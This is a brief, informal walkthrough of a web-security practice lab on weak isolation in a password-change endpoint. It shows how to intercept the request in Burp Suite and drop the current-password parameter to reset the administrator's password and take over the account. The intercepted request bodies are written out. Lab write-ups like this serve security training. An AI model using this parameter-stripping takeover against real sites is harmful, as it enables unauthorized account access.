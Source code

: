 # Weak isolation on dual-use endpoint

## This lab makes a flawed assumption about the user's privilege level based on their input. As a result, you can exploit the logic of its account management features to gain access to arbitrary users' accounts. To solve the lab, access the `administrator` account and delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login using wiener:peter
now enter username administrator and password peter and new password and confirm new password again and intercept using burpsuite

```javascript
username=administrator&current-password=peter&new-password-1=peter&new-password-2=peter
```

send to repeter

```javascript
username=administrator&new-password-1=peter&new-password-2=peter
```

remeove new password and send to request respose ok
now perform in real

### step2

```javascript
username=administrator&new-password-1=peter&new-password-2=peter
```

now login using `administrator` and password `peter`
